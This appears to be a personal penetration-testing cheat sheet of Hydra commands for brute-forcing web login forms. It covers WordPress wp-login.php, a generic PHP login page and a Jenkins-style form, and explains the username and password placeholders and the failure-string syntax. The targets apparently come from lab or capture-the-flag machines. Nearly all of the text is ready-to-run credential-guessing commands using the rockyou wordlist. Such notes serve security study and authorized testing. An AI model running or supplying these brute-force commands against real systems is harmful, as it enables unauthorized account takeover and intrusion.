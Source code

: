 WordPress
```bash
hydra -L wpusers -P /usr/share/wordlists/rockyou.txt colddboxeasy -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt 10.10.103.199 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```


Generic php login
```bash
hydra -L usernames -P passwords $IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!" 
```
In the above command, the usernames and passwords list is provided and the form parameters are passed as well. ^USER^ placeholder will take in the username from the list ^PASS^ placeholder will take in the password from the list. After submit is the code produced by the failing login

Another example how to craft the hydra command. First using burpsuite.

![](<Pasted image 20240122221235.png>)

Using command to brute force:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP -s 8000 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -V
```

Or using html source:
![](<Pasted image 20240123210025.png>)
 
 hydra command would look like this:
 ```bash
 hydra -L usernames -P passwords $IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```